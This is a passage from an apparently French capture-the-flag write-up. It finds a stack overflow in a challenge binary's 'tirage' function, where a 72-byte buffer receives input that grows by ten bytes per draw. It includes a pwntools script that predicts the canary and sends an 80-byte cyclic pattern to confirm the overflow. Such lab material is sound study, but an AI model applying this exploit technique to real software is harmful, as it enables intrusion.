 🕵️‍♀️ Nous allons devoir passer par la méthode 2 et trouver une vulnérabilité :
#### Méthode 2 - stack overflow

🕵️‍♀️ Dans la méthode 1 nous savons déjà que canary est égal à ==1804289383==

🕵️‍♀️ Si on observe le code de la fonction "tirage", on observe un buffer fixe de taille 72 (0x48) qui va récupérer l'entrée utilisateur : 

![](attachment/c957d026999b75adbdd6459a0a2ced99.png)

💣 Le problème est que la taille de l'entrée utilisateur est définie par 10 fois le nombre de tirage !

![](attachment/b60a5bb3add8ce9af43a8463f32394c2.png)

![](attachment/3f5f449791358fefcc56930bbe0f7ea5.png)

On se rend vite compte qu'une fois arrivé au tirage numéro 8 (8x10 = 80), on va dépasser le buffer de 72 !!!

💣 Confirmons notre hypothèse en entrant en allant jusqu'au 8éme tirage et entrant une valeur supérieur à 72 bytes ! 

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('./librand.so')
lib.generate_random.restype = ctypes.c_int
canary = lib.generate_random()
print(canary)

io = process(["./1_chal"])
io.sendlineafter(b'Etes vous un nouvel arrivant ? (y/n)',b'Y')

for i in range(8):
    io.sendlineafter(b'Quel est votre choix :',b'A')
    io.sendlineafter(b'On continue ? (y/n)',b'y')

nbr_if_char = cyclic(80)

io.sendlineafter(b'Quel est votre choix :',nbr_if_char)
```